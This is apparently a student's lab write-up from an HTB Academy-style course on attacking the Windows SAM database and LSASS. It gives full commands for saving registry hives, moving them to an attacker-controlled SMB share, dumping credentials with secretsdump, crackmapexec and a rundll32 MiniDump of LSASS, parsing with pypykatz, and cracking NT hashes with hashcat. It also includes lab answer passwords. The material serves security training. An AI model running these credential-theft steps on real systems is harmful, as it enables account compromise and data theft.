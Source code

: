 # Attacking SAM & LSASS

## Attacking SAM

With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline.

There are three registry hives that we can copy if we have local admin access on the target ->

<table><thead><tr><th width="182">Registry Hive</th><th>Description</th></tr></thead><tbody><tr><td><code>hklm\sam</code></td><td>Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.</td></tr><tr><td><code>hklm\system</code></td><td>Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.</td></tr><tr><td><code>hklm\security</code></td><td>Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.</td></tr></tbody></table>

We can create backups of these hives using the `reg.exe` utility.

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
```

Once the hives are saved offline, we can use various methods to transfer them to our attack host. In this case, let's use [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)

```shell-session
ElFelixi0@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

Once we have the share running on our attack host, we can use the `move` command on the Windows target to move the hive copies to the share.

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
```

And then once everything is on the attackbox we can dump it using secretsdump ->

```shell-session
ElFelixi0@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

we can copy the NT hashes associated with each user account into a text file and start cracking passwords.

```shell-session
ElFelixi0@htb[/htb]$ sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
<SNIP>
```

and in hashcat ->

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Remote Dumping

Using crackmapexec (better to use netexec but in the course it will be cme) we can extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

```shell-session
ElFelixi0@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

**Dumping SAM Remotely**

```shell-session
ElFelixi0@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

_**Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.**_

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```
hashcat -m 1000 realnthash.txt /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>c02478537b9727d391bc80011c2e2321:matrix</p></figcaption></figure>

_**Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer.**_

```
crackmapexec smb 10.129.202.137 --local-auth -u Bob -p HTB_@cademy_stdnt! --lsa
```

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## Attacking LSASS

LSASS is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems.

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

LSASS will:

* Cache credentials locally in memory
* Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
* Enforce security policies
* Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

With access to an interactive graphical session with the target, we can use task manager to create a memory dump.

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p><code>Open Task Manager</code> > <code>Select the Processes tab</code> > <code>Find &#x26; right click the Local Security Authority Process</code> > <code>Select Create dump file</code></p></figcaption></figure>

And a file will be created here ->

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

And we can transfer the file to our local machine just like the sam one.

### Rundll32

We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32). This way is faster than the Task Manager method and more flexible because we may gain a shell session on a Windows host with only access to the command line.

we must determine what process ID (`PID`) is assigned to `lsass.exe` throught cmd or powershell

_**CMD:**_

```cmd-session
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
<SNIP>
lsass.exe                      672 KeyIso, SamSs, VaultSvc
```

_**Powershell:**_

```powershell-session
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

And then we can use rundll ->

```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`) and we can transfer that file to attackbock just like the others.

### Pypykatz to Extract Credentials

Now that we have our dmp file we can use [pypykatz](https://github.com/skelsec/pypykatz) to attempt to extract credentials from the .dmp file.

```shell-session
ElFelixi0@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

The output will looksomething like this ->

```shell-session
<SNIP>
== LogonSession ==
authentication_id 1354581 (14ab55)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354581
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
<SNIP>	
```

Now we can use Hashcat to crack the NT Hash.

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

_**Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer.**_

<figure><img src="../../../../.gitbook/assets/image (1455).png" alt=""><figcaption><p>C:\Users\HTB-ST~1\AppData\Local\Temp\lsass.DMP</p></figcaption></figure>

```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1032889/Documents/
```

<figure><img src="../../../../.gitbook/assets/image (1456).png" alt=""><figcaption></figcaption></figure>

```
pypykatz lsa minidump lsass.DMP
```

<figure><img src="../../../../.gitbook/assets/image (1457).png" alt=""><figcaption><p>31f87811133bc6aaa75a536e77f64314</p></figcaption></figure>

```
hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (1458).png" alt=""><figcaption><p>31f87811133bc6aaa75a536e77f64314:Mic@123</p></figcaption></figure>
